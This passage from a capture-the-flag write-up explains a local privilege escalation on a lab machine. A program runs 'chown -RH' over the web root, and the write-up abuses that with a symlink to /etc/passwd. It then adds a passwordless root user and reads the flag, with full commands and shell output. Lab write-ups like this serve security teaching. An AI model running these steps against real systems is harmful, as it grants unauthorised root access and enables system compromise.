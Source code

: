 This program seems to be a simple wrapper that just calls some other executables. But there is one very interesting line:

```c
execl("/usr/bin/chown", "/usr/bin/chown", "-RH", "www-data:", "/var/www/html", NULL);
```

Before the web server is restarted, this line makes sure that each file in `/var/www/html` is owned by `www-data`. The flags `-RH` instruct `chown` to operate recursively on directories and follow symbolic links. This is very dangerous because we can perform a **symlink attack**. This allows us to get ownership of arbitrary files on the system!

The attack works the following way:

1. Create a symbolic link in `/var/www/html` that points to a restricted file, e.g. `/etc/passwd`:
   
   ```bash
   ln -s /etc/passwd /var/www/html/passwd
   ```

2. Send the command to "restart the web server". This will call  the`chown` command from above, follow the symbolic link and change the owner of `/etc/passwd` to `www-data`.
   
   ```bash
   /opt/control-panel web-restart
   ```

Now we are the owner of the `/etc/passwd` file:

```bash
www-data@cantaloupe:/opt$ ls -al /etc/passwd
-rw-r--r-- 1 www-data www-data 1562 Jul  1 19:59 /etc/passwd
```

As a final step, we can add a new root user to get superuser privileges and retrieve the second token:

```bash
www-data@cantaloupe:/opt$ echo 'toor::0:0:root:/root:/bin/bash' >> /etc/passwd
www-data@cantaloupe:/opt$ su toor
root@cantaloupe:/opt# id
uid=0(root) gid=0(root) groups=0(root)
root@cantaloupe:/opt# cat /root/token
Well done, my friend: CANTALOUPE{f0llow1ng_syml1nk5_c4n_b3_d4ng3r0us}
```

> **Remark:** Despite technically logging in as user `toor`, we are effectively `root` since both users have the same user id of 0.


